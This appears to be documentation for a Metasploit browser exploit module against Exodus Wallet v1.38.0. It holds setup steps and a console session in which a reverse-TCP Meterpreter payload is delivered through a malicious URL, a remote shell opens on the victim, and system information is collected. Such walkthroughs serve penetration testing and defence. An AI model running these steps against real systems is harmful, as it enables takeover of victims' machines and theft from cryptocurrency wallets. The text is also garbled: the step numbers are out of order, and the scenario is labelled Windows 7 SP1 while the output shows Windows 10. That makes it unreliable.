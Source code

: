 
## Verification Steps
    1. Install Exodus Wallet version `v1.38.0`
  6. Start `msfconsole`
    3. Do `use exploit/windows/browser/exodus`
  11. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
  12. Do `set LHOST ip`
    6. Do `exploit`
    7. In the target machine browse to the malicious URL an launch Exodus
  14. Verify the Meterpreter session is opened

## Scenarios

# Exodus Wallet on Windows 7 SP1

```
msf > use exploit/windows/browser/exodus
msf exploit(windows/browser/exodus) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/browser/exodus) > set LHOST 172.16.40.5 
LHOST => 172.16.40.5
msf exploit(windows/browser/exodus) > exploit 
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 172.16.40.5:4444 
[*] Using URL: http://0.0.0.0:80/
msf exploit(windows/browser/exodus) > [*] Local IP: http://172.16.40.5:80/
[*] Server started.
[*] 172.16.40.149    exodus - Delivering Payload
[*] Sending stage (179779 bytes) to 172.16.40.149
[*] Meterpreter session 1 opened (172.16.40.5:4444 -> 172.16.40.149:49726) at 2018-02-23 15:40:17 +0000

msf exploit(windows/browser/exodus) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : DESKTOP-PI8214R
OS              : Windows 10 (Build 10586).
Architecture    : x64
System Language : pt_PT
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```